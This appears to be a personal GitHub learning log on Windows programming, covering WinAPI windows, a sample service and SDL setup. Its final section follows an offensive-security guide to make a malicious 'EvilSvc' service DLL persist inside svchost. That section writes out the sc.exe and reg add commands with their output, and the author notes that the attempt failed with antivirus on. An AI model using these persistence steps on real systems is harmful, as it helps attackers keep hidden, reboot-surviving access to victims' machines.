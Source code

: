 # trying to use winapi

https://docs.microsoft.com/en-us/windows/win32/learnwin32/your-first-windows-program

failed : not running in dev cpp

### new.cpp

new.cpp creates a window, this works.

![](new.png)

## Introduction to windows service applications

Microsoft Windows services, formerly known as NT services, enable you to create long-running executable applications that run in their own Windows sessions. These services can be automatically started when the computer boots, can be paused and restarted, and do not show any user interface.

https://www.c-sharpcorner.com/article/create-windows-services-in-c-sharp/

failed : This also did not go according to plan.


Lets create a smaple service 

https://www.codeproject.com/Articles/499465/Simple-Windows-Service-in-Cplusplus

sc create ValueList binPath=C:\Users\HP\Downloads\SampleService\Debug\SampleService.exe

Successfully added service - 

![](services/cmd.png)

verifying the service - 

![](services/valuelist.png)

## Creating a MFC appliCATION

Starting initial application:

![](./mfc/mfc_simple.png)

failed : It didnt work was too complicated. Did not work.

## working with SDL and C++

https://lazyfoo.net/tutorials/SDL/

Able to compile sdl

![](sdl_tut.png)

step 1. download SDL libs http://libsdl.org/download-2.0.php
step 2. you need to add the SDL include folder to the Visual C++ include directories. in properties.
step 3. The header file tells the compiler what the SDL functions are, not where to find them. The library file tells the compiler where they are and we need to tell it to use the SDL library file. Go to Configuration Properties -> Linker -> Additional Dependencies -> Edit. Add SDL2.lib and SDL2main.lib.
step 4. While we did tell Visual C++ to use the SDL library files, we didn't tell it where to find it. Add the library directory like you did the include directory. inside properties library directory add x64 lib folder.
step 5. This is because your application needs SDL2.dll to run but can't find it. Windows uses environment variables to define where to look for dll files. To edit the PATH environment variable, go into Windows Settings and search for edit the system environment variables.
x64 lib.

Need to give full path of image to be loaded.
Was able to load the image.

![](./sdl/weirdal.png)

## Code for handling multiple inputs

![](sdl.gif)

# Persisting with svchost.exe with a service dll servicemain

Create a service EvilSvc.dll DLL (the DLL that will be loaded into an svchost.exe) with the code we want executed on each system reboot
Create a new service EvilSvc with binPath= svchost.exe
Add the ServiceDll value to EvilSvc service and point it to the service DLL compiled in step 1
Modify HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost to specify under which group your service should be loaded into
Start EvilSvc service
The EvilSvc is started and its service DLL EvilSvc.dll is loaded into an svchost.exe

https://www.ired.team/offensive-security/persistence/persisting-in-svchost.exe-with-a-service-dll-servicemain

failed:
![](./service_dll_for_svchost/servicedll.png)
 
Theory on svchost :  https://www.geoffchappell.com/studies/windows/win32/services/svchost/index.htm?tx=21%2C22

official guide on servicehost: https://docs.microsoft.com/en-us/windows/win32/services/writing-a-servicemain-function

1. Another attempt at creating a service dll

https://github.com/apriorit/SvcHostDemo/blob/master/src/SvcHostDemo/SvcHostDemo.cpp

status : Build succeeded on this.

2. So lets now create a service Evilsvc

`sc.exe create EvilSvc binPath= "c:\windows\System32\svchost.exe -k DcomLaunch" type= share start= auto`

status : done

```
C:\Windows\system32>sc.exe create EvilSvc binPath= "c:\windows\System32\svchost.exe -k DcomLaunch" type= share start= auto
[SC] CreateService SUCCESS
```

3. modify the service dll path

`reg add HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\Parameters /v ServiceDll /t REG_EXPAND_SZ /d "D:\VS Studio projects\svchost_dll\Debug\svchostdll.dll" /f`

status : done

```
C:\Windows\system32>reg add HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\Parameters /v ServiceDll /t REG_EXPAND_SZ /d "D:\VS Studio projects\svchost_dll\Debug\svchostdll.dll" /f
The operation completed successfully.

```
4. Group EvilSvc with DcomLaunch

As a final step, we need to tell the Service Control Manager under which service group our EvilSvcshould load. 
We want it to get loaded in the DcomLaunch group, so we need to add our service name EvilSvc in the list of services in the DcomLaunch value in HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost

status : added

![](service_dll_for_svchost/evilsvc_in_registry.png)


5. start evilsvc service as part of dcom launcher

`sc.exe start EvilSvc`

![](service_dll_for_svchost/evilsvc_adm.png)

status : Didnot registre as service with antivirus enabled

![](service_dll_for_svchost/evilsvc_not_found.png)